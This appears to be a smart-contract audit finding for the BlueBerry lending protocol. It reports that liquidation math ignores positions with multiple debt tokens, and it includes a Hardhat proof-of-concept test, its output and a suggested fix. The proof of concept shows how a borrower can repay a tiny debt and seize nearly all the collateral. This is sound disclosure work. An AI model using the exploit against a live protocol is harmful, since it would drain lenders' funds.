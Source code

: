 evan

high

# Liquidate calculations are incorrect when position borrows more than 1 type of token

## Summary
If a position has borrowed more than 1 type of token, then the liquidator (which can be the position owner) will get more collateral tokens and underlying tokens than they are supposed to when they call liquidate.

## Vulnerability Detail
https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/BlueBerryBank.sol#L522-L531

^^ Observe that these lines of calculation does not take into account the possibility of the position having multiple types of debt tokens.

## Impact
A malicious user can purposely setup a position borrowing a lot of asset A and a little bit of asset B. When the position becomes liquidatable, the user calls liquidate on the position paying back all the asset B. The user will get all the collateral tokens (ICHI Vault tokens in this case) and underlying tokens without having to pay back the asset A debt. Clearly, the protocol will incur a heavy loss every time this happens. See the proof of concept below.

## Code Snippet
Please put this test in bank.test.ts, and run `yarn hardhat test --grep Vuln1`
```javascript
	describe("Vuln1", () => {
		const depositAmount = utils.parseUnits('100', 18);
		const borrowAmount = utils.parseUnits('300', 6);
		const borrowAmount2 = utils.parseUnits('1', 18);
		const iface = new ethers.utils.Interface(SpellABI);

		beforeEach(async () => {
			await usdc.approve(bank.address, ethers.constants.MaxUint256);
			await ichi.approve(bank.address, ethers.constants.MaxUint256);
			await bank.execute(
				0,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					USDC,
					depositAmount,
					borrowAmount
				])
			)
			await bank.execute(
				1,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					ICHI,
					0,
					borrowAmount2
				])
			)
		})
		it("borrowing multiple types of token", async () => {
			const positionIds = await bank.getPositionIdsByOwner(admin.address);
			console.log(positionIds);
			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			let positionInfo = await bank.getPositionInfo(1);
			let debtValue = await bank.getDebtValue(1)
			let positionValue = await bank.getPositionValue(1);
			let risk = await bank.getPositionRisk(1)
			console.log("Debt Value:", utils.formatUnits(debtValue));
			console.log("Position Value:", utils.formatUnits(positionValue));
			console.log('Position Risk:', utils.formatUnits(risk, 2), '%');
			console.log("Position Size:", utils.formatUnits(positionInfo.collateralSize));

			console.log('===ICHI token dumped from $5 to $1===');
			await mockOracle.setPrice(
				[ICHI],
				[
					BigNumber.from(10).pow(17).mul(10),
				]
			);
			positionInfo = await bank.getPositionInfo(1);
			debtValue = await bank.getDebtValue(1)
			positionValue = await bank.getPositionValue(1);
			risk = await bank.getPositionRisk(1)
			console.log("Cur Pos:", positionInfo);
			console.log("Debt Value:", utils.formatUnits(debtValue));
			console.log("Position Value:", utils.formatUnits(positionValue));
			console.log('Position Risk:', utils.formatUnits(risk, 2), '%');
			console.log("Position Size:", utils.formatUnits(positionInfo.collateralSize));

			expect(await bank.isLiquidatable(1)).to.be.true;
			console.log("Is Liquidatable:", await bank.isLiquidatable(1));

			console.log("===Portion Liquidated===");
			const liqAmount = utils.parseUnits("1", 18);
			await ichi.connect(alice).approve(bank.address, liqAmount)
			await expect(
				bank.connect(alice).liquidate(1, ICHI, liqAmount)
			).to.be.emit(bank, "Liquidate");

			positionInfo = await bank.getPositionInfo(1);
			debtValue = await bank.getDebtValue(1)
			positionValue = await bank.getPositionValue(1);
			risk = await bank.getPositionRisk(1)
			console.log("Cur Pos:", positionInfo);
			console.log("Debt Value:", utils.formatUnits(debtValue));
			console.log("Position Value:", utils.formatUnits(positionValue));
			console.log('Position Risk:', utils.formatUnits(risk, 2), '%');
			console.log("Position Size:", utils.formatUnits(positionInfo.collateralSize));

			const colToken = await ethers.getContractAt("ERC1155Upgradeable", positionInfo.collToken);
			const uVToken = await ethers.getContractAt("ERC20Upgradeable", ichiSoftVault.address);
			console.log("Liquidator's Position Balance:", await colToken.balanceOf(alice.address, positionInfo.collId));
			console.log("Liquidator's Collateral Balance:", await uVToken.balanceOf(alice.address));
		})
	})
```
Relevant output of the test:
```plaintext
Cur Pos: [
  '0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266',
  '0x111111517e4929D3dcbdfa7CCe55d30d4B6BC4d6',
  BigNumber { value: "99500000000000000000" },
  BigNumber { value: "9950000000000000000000" },
  '0x666432Ccb747B2220875cE185f487Ed53677faC9',
  BigNumber { value: "1444340184240050549415016108611883439767302560454" },
  BigNumber { value: "304172983" },
  BigNumber { value: "11607" },
  owner: '0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266',
  underlyingToken: '0x111111517e4929D3dcbdfa7CCe55d30d4B6BC4d6',
  underlyingAmount: BigNumber { value: "99500000000000000000" },
  underlyingVaultShare: BigNumber { value: "9950000000000000000000" },
  collToken: '0x666432Ccb747B2220875cE185f487Ed53677faC9',
  collId: BigNumber { value: "1444340184240050549415016108611883439767302560454" },
  collateralSize: BigNumber { value: "304172983" },
  risk: BigNumber { value: "11607" }
]
Debt Value: 301.0
Position Value: 185.509423928334692619
Position Risk: 116.07 %
Position Size: 0.000000000304172983
Is Liquidatable: true
===Portion Liquidated===
Cur Pos: [
  '0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266',
  '0x111111517e4929D3dcbdfa7CCe55d30d4B6BC4d6',
  BigNumber { value: "380517502347" },
  BigNumber { value: "38051750234700" },
  '0x666432Ccb747B2220875cE185f487Ed53677faC9',
  BigNumber { value: "1444340184240050549415016108611883439767302560454" },
  BigNumber { value: "2" },
  BigNumber { value: "7883999998257" },
  owner: '0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266',
  underlyingToken: '0x111111517e4929D3dcbdfa7CCe55d30d4B6BC4d6',
  underlyingAmount: BigNumber { value: "380517502347" },
  underlyingVaultShare: BigNumber { value: "38051750234700" },
  collToken: '0x666432Ccb747B2220875cE185f487Ed53677faC9',
  collId: BigNumber { value: "1444340184240050549415016108611883439767302560454" },
  collateralSize: BigNumber { value: "2" },
  risk: BigNumber { value: "7883999998257" }
]
Debt Value: 300.00000000382429652
Position Value: 0.000001219762663328
Position Risk: 78839999982.57 %
Position Size: 0.000000000000000002
Liquidator's Position Balance: BigNumber { value: "304172981" }
Liquidator's Collateral Balance: BigNumber { value: "9949999961948249765300" }
```
Observe that after the liquidation, the debt value barely changed. The position risk went from 116.07 % to 78839999982.57 %, and liquidator got almost all of the vault tokens and underlying tokens after paying very little.

## Tool used
Manual Review
Hardhat

## Recommendation
https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/BlueBerryBank.sol#L529-L531
^^ Instead of multiplying by share/oldShare, they should be multiplying by `oracle.getDebtValue(debtToken, amountPaid)/oldTotalDebt`, where oldDebtValue is `getDebtValue(POSITION_ID)` before `repayInternal` gets called.
